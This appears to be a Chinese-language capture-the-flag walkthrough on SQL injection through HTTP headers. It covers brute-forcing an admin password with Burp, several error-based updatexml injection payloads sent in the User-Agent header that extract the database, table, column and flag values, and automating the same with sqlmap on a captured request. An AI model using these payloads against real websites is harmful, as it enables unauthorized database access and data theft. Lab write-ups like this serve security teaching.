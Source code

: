

### HEAD实战 

> 
HEAD头修改：
**User-Agent；**
**Referer；**
**X-Forwarded-For等等**


首先用Burp爆破密码:

#### ==》账号：admin;密码：123456。

#### 手工注入

需要用 **ModHeader **插件：

> 
**修改UA头进行注入:**
**1.判断注入点**
**'or sleep(5),1)#**


==》存在SQL注入。

**2.查当前数据库 **

**'or updatexml(1,concat(0x7e,(select database()),0x7e),1),1)#**

==》当前数据库为**head_error。**

**3.查表名 **

'**or updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1)),1),1)#**

==》表名为 **flag_head。**

**4.查列名 **

**'or updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name="flag_head" limit 1,1)),1),1)#**

**==》**列名为**flag_h1。**

**5.查字段内容 **

**'or updatexml(1,concat(0x7e,(select flag_h1 from flag_head limit 1,1)),1),1)#**

Sqlmap注入

Burp抓包，为了方便还是在Sqlmap文件夹里创建文档1.txt然后把数据存放在里面；

并**在存在注入点的地方打个*号**；

> 
<pre>**sqlmap.py -r 1.txt**
</pre>


 

 ==》**注入成功**；

然后跑库名(sqlmap.py -r 1.txt --dbs)，表名，字段名和数据；

跟上面的 --forms的POST注入类似；

 

 

 

 
